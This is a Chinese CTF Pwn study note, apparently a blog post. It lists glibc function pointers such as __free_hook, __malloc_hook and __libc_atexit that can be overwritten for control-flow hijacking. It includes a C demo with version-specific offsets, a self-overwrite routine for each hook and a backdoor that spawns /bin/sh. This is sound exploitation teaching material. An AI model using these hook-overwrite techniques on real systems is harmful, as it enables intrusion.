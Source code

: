 ```yaml
---
title: CTF Pwn 题中 libc 可用 函数指针 （攻击位置） 整理
date: 2021-05-31 00:00:00
categories:
- CTF/Pwn
tags: 
---
```


> 更新中...在内存破坏漏洞的攻击过程中，攻击者的最终目标一般来说是控制流劫持。如果攻击者能获得一个任意地址写（aaw）的能力，则之后的需要做的就是修改的在**间接跳转**过程中被使用的关键数据。首先能想到的就是**函数指针**，因为其内容就是间接跳转的目标地址。另外还有可能是对间接跳转的起着间接影响的数据，比如多级指针、数组索引等，不过落到最后仍然是函数指针。攻击大流程走到这步，攻击这个动词的宾语就变成了某个数据、变量、内存位置，比如攻击`__free_hook`。本文对CTF Pwn题中 常见的 位于libc中的 可以被攻击者利用进行控制流劫持的 函数指针 以及 触发方式 进行了整理。

- __free_hook: free()
- __malloc_hook: malloc()
- __realloc_hook: realloc()
- __libc_atexit: exit()
- _rtld_global: exit()
- prepare_handler: fork()

1. 攻击的数据本身就是函数指针：没啥说的直接改就行。
2. 攻击数据本身是多级指针，需要多级解引用后才能真正触发到间跳转：攻击多级指针本体并构造指针指向的合法数据，如果直接攻击最终有效的间接跳转，则退化为1。
3. 攻击数据本身是指针链表的索引：攻击索引，使其索引计算完成后为劫持地址，如果直接攻击指针链表，则退化为1。

```c
# include <stdio.h>
# include <sys/types.h>
# include <sys/stat.h>
# include <fcntl.h>
# include <unistd.h>
# include <sys/mman.h>
# include <string.h>
# include <stdlib.h>

void backdoor(){
    system("/bin/sh");
}

long long * get_addr(char * pattern){
    char buf [0x1000] = {0};
    read(open("/proc/self/maps",0),buf,0x1000);

    char * tmp = strtok(buf, "\n");
    while (tmp)
    {   
        if(strstr(tmp,pattern)){
            long long * leak_addr;
            sscanf(tmp,"%p",&leak_addr);
            return leak_addr;
        }
        tmp = strtok(NULL, "\n");
    }
}

void aaw(long long *addr,long long data){
    * addr = data;
}


void attack_malloc_hook(){
     // address information
     long long   * libc_base   =   get_addr("libc-2.23.so");
     long long     malloc_hook =   0x3c4b10 / 8;

     // attack
     aaw(libc_base + malloc_hook , 0xdeadbeefdeadbeef) ;

     // trigger
     // printf("%s",0x400000); //printf also can trigger malloc
     malloc(10);
     
}
void attack_realloc_hook(){
     // address information
     long long   * libc_base   =   get_addr("libc-2.23.so");
     long long     malloc_hook =   0x3c4b08 / 8;

     // attack
     aaw(libc_base + malloc_hook , 0xdeadbeefdeadbeef) ;

     // trigger
     realloc(0,0);
}
void attack_free_hook(){
    // https://lantern.cool/note-pwn-free-hook/
    // address information
    long long   * libc_base   =   get_addr("libc-2.23.so");
    long long     free_hook   =   0x3c67a8 / 8;

    // attack
    aaw(libc_base + free_hook ,   0xdeadbeefdeadbeef) ;

    // trigger
    free("");
}
void attack_libc_atexit(){
    // https://xz.aliyun.com/t/6260
    // ubuntu version >= 19 

    // address information
    // ubuntu 16.04 glibc 2.23 __libc_atexit 0x3c08d8 read only
    // ubuntu 18.04 glibc 2.27 __libc_atexit 0x3e7738 read only
    long long   * libc_base   =   get_addr("libc-2.31");
    long long     libc_atexit =   0x1ed608 / 8;

    // attack
    aaw(libc_base + libc_atexit , 0xdeadbeefdeadbeef) ;

    // trigger
    exit(0);
}
void attack_rtld_global(){
    //  https://www.cnblogs.com/bhxdn/p/14222558.html
    //  libc-2.23 _rtld_global:0x5f0040   __rtld_lock_lock_recursive: 3848  __rtld_lock_unlock_recursive: 3856
    //  libc-2.27 _rtld_global:0x619060   __rtld_lock_lock_recursive: 3840  __rtld_lock_unlock_recursive: 3848
    //  libc-2.31 _rtld_global:0x23e060   __rtld_lock_lock_recursive: 3848  __rtld_lock_unlock_recursive: 3856

    // address information
    long long   * libc_base      =  get_addr("libc-2.31");
    long long     libc_exit_rtld =  (0x23e060+3848) / 8;

    // attack
    aaw(libc_base + libc_exit_rtld , 0xdeadbeefdeadbeef) ;

    // trigger
    exit(0);
}
void attack_fork_prepare_handler(){
    // https://xuanxuanblingbling.github.io/ctf/pwn/2019/10/14/warmup/
    // prepare: address information and payload ptr
    long long   * libc_base   =   get_addr("libc-2.23.so");
    long long     fork_ptr    =   0x3c9748 / 8;
    long long     payload[6]  =   {0,0xdeadbeefdeadbeef,0,0,0,1};

    // attack
    aaw(libc_base + fork_ptr , payload) ;

    // trigger
    fork();
}

int main(){
    attack_free_hook();
}
```
